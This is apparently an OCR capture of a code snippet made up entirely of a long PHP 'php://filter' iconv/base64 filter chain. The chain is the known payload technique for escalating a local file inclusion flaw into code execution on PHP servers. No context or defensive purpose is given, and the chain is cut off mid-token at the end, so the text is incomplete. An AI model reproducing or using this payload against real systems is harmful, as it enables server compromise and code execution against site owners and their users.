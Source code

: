 ```
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP866.CSUNICODE|convert.iconv.CSISOLATIN5.ISO_6937-2|convert.iconv.CP950.UTF-16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.iconv.ISO-IR-103.850|convert.iconv.PT154.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UTF16.EUC-JP-MS|convert.iconv.ISO-8859-1.ISO_6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|conver
```